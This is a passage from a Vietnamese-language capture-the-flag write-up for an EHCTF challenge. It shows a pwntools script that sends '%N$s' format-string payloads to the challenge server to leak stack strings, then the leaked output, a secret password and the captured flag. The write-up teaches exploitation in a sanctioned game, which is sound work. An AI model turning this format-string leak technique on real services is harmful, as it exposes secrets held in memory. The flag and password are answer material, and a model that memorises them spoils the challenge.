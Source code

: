 ## Exploit Development

Khi đã biết được trên stack của nó có các string rồi thì mình viết một script đề fuzzing xem nó còn gì thêm nữa không

```py
from pwn import *

context.log_level = 'error'

for i in range(1, 51):
    try:
        p = remote('challenge.ctf.ehc-fptu.club', 22909)
        p.sendlineafter(b'password:', f'%{i}$s'.encode())
        p.recvuntil(b'Checking your password:')
        leak = p.recvline().strip()
        print(f'Index {i} -> {leak}')
        p.close()
    except EOFError:
        p.close()
```

Và khi fuzz được một hồi mình nhận thấy ở index 16 có xuất hiện secret password, và việc của ta chỉ là lấy password đó và nhập vào thôi (đừng search password đó trên mạng...)

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF
$ python3 secrect.py
Index 1 -> b'Checking your password:'
Index 2 -> b'(null)'
Index 3 -> b'H='
Index 5 -> b'(null)'
Index 6 -> b':3:3'
Index 7 -> b''
Index 8 -> b'keep going...'
Index 9 -> b'(null)'
Index 11 -> b'(null)'
Index 12 -> b'(null)'
Index 13 -> b'(null)'
Index 14 -> b'(null)'
Index 15 -> b'(null)'
Index 16 -> b'secret password: 177013'
```

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF
$ nc challenge.ctf.ehc-fptu.club 37918
Enter your password:
177013
Checking your password:177013
Correct password! Here is your flag:
EHCTF{how_cAN_yoU_S3E_thlS_seCre7_ad5cd203a6d0}
```
